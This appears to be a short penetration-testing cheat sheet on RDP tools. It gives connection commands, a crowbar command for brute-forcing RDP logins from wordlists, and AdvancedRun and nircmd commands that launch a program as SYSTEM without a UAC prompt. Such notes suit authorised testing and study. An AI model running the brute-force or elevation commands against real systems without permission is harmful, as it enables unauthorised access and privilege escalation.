 # RDP tools

## Connect

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:IP /u:USER /p:PASS
rdesktop -a 16 -z -u USER -p PASS IP -r clipboard:CLIPBOARD
remmina -c FILE.rdp
```

## brute force RDP

```
crowbar -b rdp -s CIDR-IP/32 -U USER.txt -C PASS.txt
```

## Run shell as elevated user without UAC prompt

### [nirsoft.net/Advanced Run](https://www.nirsoft.net/utils/advanced_run.html)

```bash
> AdvancedRun.exe /EXEFilename "kashz.exe" /RunAs 4 /Run
# 3: Administrator
# 4: SYSTEM
```

### [nirsoft.net/nircmd](https://www.nirsoft.net/utils/nircmd.html)

```bash
> nircmd.exe elevatecmd runassystem kashz.exe
```

## References

* [winhelponline.com/run-program-as-system-localsystem-account-windows](https://www.winhelponline.com/blog/run-program-as-system-localsystem-account-windows)
